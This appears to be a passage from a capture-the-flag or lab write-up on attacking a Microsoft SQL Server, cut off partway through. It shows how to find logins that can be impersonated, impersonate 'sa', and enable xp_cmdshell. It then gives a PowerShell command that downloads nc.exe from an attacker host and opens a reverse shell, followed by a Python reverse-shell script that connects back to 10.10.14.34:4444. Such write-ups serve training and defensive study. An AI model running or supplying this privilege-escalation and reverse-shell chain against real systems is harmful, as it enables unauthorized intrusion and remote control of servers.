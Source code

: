 ```
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

As the sa user I can enable xp_cmdshell.

```
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
```

```
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

Now I'll upload nc to the box, and use it to call out to my local machine for a reverse shell.

```
EXECUTE AS LOGIN = 'sa'
EXEC xp_cmdshell 'powershell -noprofile -Command "Invoke-WebRequest http://10.10.14.34:8000/nc.exe -OutFile C:\Users\Public\nc.exe" & C:\Users\Public\nc.exe 10.10.14.34 4444 -e powershell';
```

Unfortunately, no dice. I can only assume I'm being shot down by Windows Defender. However, Django is written in Python, so a Python reverse shell might bear more fruit. 

```
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.34",4444))

p=subprocess.Popen(["powershell"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
```